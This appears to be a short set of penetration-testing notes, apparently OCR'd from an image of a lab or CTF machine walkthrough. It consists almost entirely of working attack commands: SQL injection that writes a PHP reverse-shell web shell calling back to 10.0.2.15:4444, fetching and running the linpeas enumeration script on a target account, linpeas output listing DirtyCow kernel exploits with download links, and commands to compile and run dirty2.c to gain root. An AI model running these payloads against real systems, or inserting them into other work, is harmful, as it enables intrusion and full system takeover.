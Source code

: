 SELECT '<php? $sock=fsockopen("10.0.2.15",4444);system("sh <&3 >&3 2>&3"); ?>' INTO OUTFILE "/var/www/forum/templates_c/shell.php";
SELECT '<?php $sock=fsockopen("10.0.2.15",4444);system("sh <&3 >&3 2>&3"); ?>' 
INTO OUTFILE '/var/www/forum/templates_c/shell.php';


curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh

scp  linpeas.sh laurie@192.168.56.101:~/

./linpeas.sh

https://www.exploit-db.com/download/4839
[+] [CVE-2016-5195] dirtycow

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5{kernel:2.6.(18|24|33)-*},RHEL=6{kernel:2.6.32-*|3.(0|2|6|8|10).*|2.6.33.9-rt31},RHEL=7{kernel:3.10.0-*|4.2.0-0.21.el7},[ ubuntu=16.04|14.04|12.04 ]
   Download URL: https://www.exploit-db.com/download/40611
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5|6|7,[ ubuntu=14.04|12.04 ],ubuntu=10.04{kernel:2.6.32-21-generic},ubuntu=16.04{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

gcc -pthread dirty2.c -o dirty -lcrypt
su firefart